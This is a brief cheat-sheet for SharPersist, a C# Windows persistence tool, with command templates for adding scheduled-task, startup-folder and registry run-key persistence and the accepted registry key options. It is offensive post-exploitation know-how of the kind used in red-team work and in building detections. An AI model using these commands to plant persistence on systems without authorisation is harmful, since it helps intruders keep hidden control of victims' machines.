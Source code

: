 # SharPersist

> Windows persistence toolkit written in C#

---

## Establish Scheduled Task Persistence

```batch
SharPersist.exe -t schtask -c $PATH_TO_EXECUTABLE -a "$EXECUTABLE_ARGUMENTS" -N $NAME_OF_SCHEDULED_TASK -m add -o $EXECUTION_FREQUENCY
```

- `$EXECUTION_FREQUENCY` options:
	- `hourly`
	- `daily`
	- `logon`

---

## Establish Startup Folder Persistence

```batch
SharPersist.exe -t startupfolder -c $PATH_TO_EXECUTABLE -a "$EXECUTABLE_ARGUMENTS" -f $LNK_FILE_NAME -m add
```

- `$LNK_FILE_NAME`: the name of the link file created in the startup folder for persistence, without the `.lnk` extension

---

## Establish Registry Run Key Persistence

```batch
SharPersist.exe -t reg -c $PATH_TO_EXECUTABLE -a "$EXECUTABLE_ARGUMENTS" -k $REGISTRY_KEY -v $REGISTRY_KEY_NAME -m add
```

- `$REGISTRY_KEY` options:
	-   `hklmrun`
	-   `hklmrunonce`
	-   `hklmrunonceex`
	-   `hkcurun`
	-   `hkcurunonce`
	-   `logonscript`
	-   `stickynotes`
	-   `userinit`

---

## References

[SharPersist GitHub Repository](https://github.com/mandiant/SharPersist)

[SharPersist Wiki](https://github.com/mandiant/SharPersist/wiki)
